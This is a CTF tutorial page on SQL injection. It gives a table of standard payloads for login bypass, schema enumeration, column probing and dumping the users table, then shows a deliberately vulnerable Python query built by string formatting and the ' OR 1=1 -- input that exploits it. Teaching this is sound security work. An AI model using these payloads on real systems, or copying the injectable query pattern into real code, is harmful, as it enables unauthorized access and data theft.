 ```yaml
---
title: "SQL Injection"
description: "Exploit SQL injection vulnerabilities to manipulate database queries and extract sensitive information in CTF web challenges."
date: 2025-10-06
draft: false
categories: ["Web"]
tags: ["sqli", "sql injection", "database exploitation", "web security"]
authors: ["CTF.Support Team"]
summary: "Learn how SQL injection works and how to exploit improperly sanitized database queries to retrieve flags and data in CTFs."
aliases: ["/web/sql-injection/"]
slug: "sql-injection"
toc: true
---
```


## Introduction

SQL Injection (SQLi) occurs when user input is improperly concatenated into a SQL query, allowing direct control over its execution.  
In CTFs, this often exposes login bypasses or flag tables within databases.

## Quick Reference

| Task                                      | Example                                                          |
|-------------------------------------------|------------------------------------------------------------------|
| Test for boolean login bypass             | `' OR 1=1 --`                                                    |
| Enumerate databases                       | `' UNION SELECT schema_name FROM information_schema.schemata --` |
| Identify columns via error-based strategy | `' ORDER BY 5 --`                                                |
| Dump table contents                       | `' UNION SELECT column1, column2 FROM users --`                  |

## Example

### Vulnerable Code (Python)

```python
import sqlite3

def get_user(username):
    conn = sqlite3.connect('users.db')
    cursor = conn.cursor()
    query = f"SELECT * FROM users WHERE username = '{username}'"
    cursor.execute(query)
    return cursor.fetchall()
```

#### Exploit

Inject input:

```sql
' OR 1=1 --
```

Resulting query:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 --'
```

This returns all rows, granting unintended access.
